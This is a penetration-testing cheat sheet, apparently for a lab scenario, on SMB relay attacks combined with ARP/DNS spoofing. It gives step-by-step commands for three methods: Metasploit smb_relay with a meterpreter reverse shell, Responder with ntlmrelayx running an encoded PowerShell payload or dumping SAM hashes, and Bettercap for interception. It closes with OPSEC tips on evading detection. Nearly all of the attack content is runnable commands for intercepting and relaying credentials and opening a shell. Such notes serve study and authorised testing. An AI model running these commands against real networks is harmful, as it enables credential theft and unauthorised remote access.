


> [!abstract] SMB Relay Attack via MitM (ARP/DNS Spoofing)
> An SMB Relay attack intercepts authentication requests (NetNTLM hashes) from a victim and forwards them to a target server to gain unauthorized access. By combining this with ARP and DNS spoofing, the attacker forces the victim's traffic to flow through them (Man-in-the-Middle), capturing the authentication automatically when the victim tries to access network resources.
> **MITRE ATT&CK Mapping:** [T1557 - Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) | [T1185 - Browser Session Hijacking / Credential Relay](https://attack.mitre.org/techniques/T1185/)


## Attack Flow Diagram



> [!warning] Prerequisites for SMB Relay
> 1. **SMB Signing must be disabled** on the Target Server (172.16.5.10).
> 2. The Victim (172.16.5.5) must have local administrator privileges on the Target Server.

---

## Method 1: Classic MitM + Metasploit (Your Scenario)

> [!danger]+ MSF `smb_relay` + `arpspoof` + `dnsspoof`
> This method uses legacy tools to establish the MitM and Metasploit to catch and relay the SMB authentication.
> 
> **Step 1: Setup Metasploit SMB Relay**
> ```bash
> msfconsole -q
> msf6 > search smb_relay
> msf6 > use exploit/windows/smb/smb_relay
> msf6 > set payload windows/meterpreter/reverse_tcp
> msf6 > set SRVHOST 172.16.5.101   # Attacker IP (Listening)
> msf6 > set SRVPORT 445
> msf6 > set LHOST 172.16.5.101     # Attacker IP (Reverse Shell)
> msf6 > set LPORT 4444
> msf6 > set SMBHOST 172.16.5.10    # Target Server to relay to
> msf6 > exploit
> ```
> 
> **Step 2: DNS Spoofing**
> Redirect all traffic meant for the domain to the Attacker's IP.
> ```bash
> echo "172.16.5.101 *.sportsfoo.com" > dns
> dnsspoof -i eth0 -f dns
> ```
> 
> **Step 3: ARP Spoofing (Man-in-the-Middle)**
> Enable IP forwarding and execute a bidirectional ARP spoof to intercept traffic between the Victim and the Gateway.
> ```bash
> echo 1 > /proc/sys/net/ipv4/ip_forward
> arpspoof -i eth0 -t 172.16.5.5 172.16.5.1   # Tell Victim we are the Gateway
> arpspoof -i eth0 -t 172.16.5.1 172.16.5.5   # Tell Gateway we are the Victim
> ```

---

## Method 2: Modern Approach (Responder + Impacket ntlmrelayx)

> [!tip]+ Responder (LLMNR/NBT-NS Poisoning) + `ntlmrelayx`
> Instead of aggressively ARP spoofing the whole subnet (which is noisy), modern attackers use Responder to intercept broadcast requests (LLMNR/NBT-NS) when a victim mistypes a share name, and `ntlmrelayx` to pivot to the target.
> 
> **Step 1: Setup Impacket ntlmrelayx**
> *This tool receives the hash and relays it to the target, executing a payload or dumping SAM.*
> ```bash
> # Disable SMB and HTTP in Responder config first to avoid conflicts
> ntlmrelayx.py -t smb://172.16.5.10 -smb2support -c "powershell -enc <base64_payload>"
> # OR to just dump local hashes:
> ntlmrelayx.py -t smb://172.16.5.10 -smb2support
> ```
> 
> **Step 2: Run Responder**
> ```bash
> # Listen for LLMNR/NBT-NS broadcast requests and poison them to point to us
> responder -I eth0 -rdw
> ```
> *When the victim tries to access a non-existent share (e.g., `\\fake_share`), Responder tells them "I am that server," captures the auth, and hands it to `ntlmrelayx`.*

---

## Method 3: Bettercap (All-in-One MitM + Sniffing)

> [!example]+ Bettercap for Elegant MitM
> `Bettercap` replaces `arpspoof`, `dnsspoof`, and `urlsnarf` with a single, powerful, interactive interface.
> 
> **Step 1: Start Bettercap**
> ```bash
> sudo bettercap -iface eth0
> ```
> 
> **Step 2: Configure MitM inside Bettercap**
> ```text
> # Enable ARP Spoofing targeting the victim
> set arp.spoof.targets 172.16.5.5
> set arp.spoof.fullduplex true
> arp.spoof on
> 
> # Enable DNS Spoofing for the domain
> set dns.spoof.domains sportsfoo.com
> set dns.spoof.address 172.16.5.101
> dns.spoof on
> 
> # Start sniffing for SMB traffic or NTLM hashes
> set net.sniff.local true
> net.sniff on
> ```
> *(While Bettercap handles the MitM, run MSF `smb_relay` or `ntlmrelayx` in the background to catch the relayed auth).*

> [!warning] OPSEC Notes
> - ARP Spoofing generates a massive amount of broadcast traffic and is easily detected by IDS/IPS (e.g., ARPwatch).
> - SMB Relay will fail if **SMB Signing** is enforced on the target server. Always check this with `nmap --script smb-security-mode <target>`.
> - If the victim user is **not** a local administrator on the target (`SMBHOST`), the relayed session will fail to establish.

